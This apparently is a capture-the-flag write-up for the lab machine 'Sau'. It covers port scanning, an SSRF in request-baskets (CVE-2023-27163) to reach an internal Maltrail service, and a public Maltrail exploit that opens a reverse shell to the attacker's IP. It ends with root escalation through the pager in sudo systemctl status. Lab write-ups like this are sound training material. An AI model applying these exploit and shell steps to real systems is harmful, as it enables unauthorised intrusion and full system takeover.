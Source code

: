 # Sau

User FLAG
----

So if we start doing an scan

```
nmap -T4 --min-rate 5000 -vvv -o all 10.10.11.224
```

We get the following result

```shell
# Nmap 7.80 scan initiated Sun Feb 18 02:51:22 2024 as: nmap -T4 --min-rate 5000 -vvv -o all 10.10.11.224
Nmap scan report for 10.10.11.224 (10.10.11.224)
Host is up, received conn-refused (0.25s latency).
Scanned at 2024-02-18 02:51:22 -03 for 1s
Not shown: 990 closed ports
Reason: 990 conn-refused
PORT      STATE    SERVICE        REASON
22/tcp    open     ssh            syn-ack
80/tcp    filtered http           no-response
987/tcp   filtered unknown        no-response
1089/tcp  filtered ff-annunc      no-response
1277/tcp  filtered miva-mqs       no-response
1309/tcp  filtered jtag-server    no-response
1334/tcp  filtered writesrv       no-response
3918/tcp  filtered pktcablemmcops no-response
49159/tcp filtered unknown        no-response
55555/tcp open     unknown        syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Feb 18 02:51:23 2024 -- 1 IP address (1 host up) scanned in 0.97 seconds
```

Port 55555 is running with https://github.com/darklynx/request-baskets

After searching for a CVE we find [this](https://github.com/entr0pie/CVE-2023-27163)

Port 80 is filtered, so we can use the following config to bypass the filter

![config](assets/config.png)

With this configuration we can do a `curl http://10.10.11.224:55555/<basket>` and we get an HTML page, reading from there we can see a `Powered by Maltrail` which is a tool to monitor network traffic.

If we google `maltrail exploit` we get a [github repo](https://github.com/spookier/Maltrail-v0.53-Exploit)

And with this we get a reverse shell

```shell
python3 exploit.py <YOUR-IP> <NC-PORT> http://10.10.11.224:55555/<BASKET>
Running exploit on http://10.10.11.224:55555/<BASKET>/login
```

Once inside we get the user flag 

```
cat /home/puma/user.txt
```

Root FLAG
----

After that we start digging to escalate privileges, first we do `sudo -l` and we get the following

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Then we do `sudo systemctl status trail.service` and we get something like this

```
● trail.service - Maltrail Sensor
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2024-02-18 00:40:00 -03; 1min 3s ago
   Main PID: 1234 (python3)
      Tasks: 1 (limit: 1137)
     Memory: 3.3M
     CGroup: /system.slice/trail.service
             └─1234 /usr/bin/python3 /opt/maltrail/sensor.py
```

Here we can write `!sh` and we get a shell as root

Next we can get the root flag

```
cat /root/root.txt
```

## Links
https://github.com/entr0pie/CVE-2023-27163
https://github.com/spookier/Maltrail-v0.53-Exploit
https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7
https://notes.sjtu.edu.cn/s/MUUhEymt7#
https://gtfobins.github.io/gtfobins/systemctl/